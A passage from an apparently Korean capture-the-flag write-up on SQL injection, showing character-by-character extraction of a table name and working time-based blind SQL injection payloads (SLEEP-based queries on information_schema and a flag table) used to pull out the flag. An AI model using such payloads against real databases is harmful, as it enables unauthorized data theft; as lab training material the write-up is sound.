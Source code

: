 > **테이블 결과:**
```csharp
[2 행]:
1 번째 값 = f → f
2 번째 값 = l → fl
3 번째 값 = a → fla
4 번째 값 = g → flag
5 번째 값 = _ → flag_
6 번째 값 = T → flag_T
7 번째 값 = a → flag_Ta
8 번째 값 = b → flag_Tab
9 번째 값 = l → flag_Tabl
10 번째 값 = e → flag_Table
End
```

- 컬럼 추출:
```sql
views, (select if(ascii(substring((select column_name from information_schema.columns where table_schema='sqli_8' and table_name='flag_Table' limit ?, 1), ?, 1)) =?, SLEEP(3), 0))
```

> **컬럼 결과:**
```csharp
1. idx
2. flagData
3.
4.
5.
```

- 플래그 추출:
```sql
views, (select if(ascii(substring((select flagData from flag_Table limit ?, 1), ?, 1)) =?, SLEEP(3), 0))
```

![플래그](/assets/web-screenshots/sqli-point/sqli_8_flag.png)

**이렇게 최종적으로 flag를 획득하였다.**

---

## SQL Injection 4

이제 게시판에 접근하여, 게시물 관련 기능에서 SQL Injection이 가능한 지점을 탐색해보겠다.
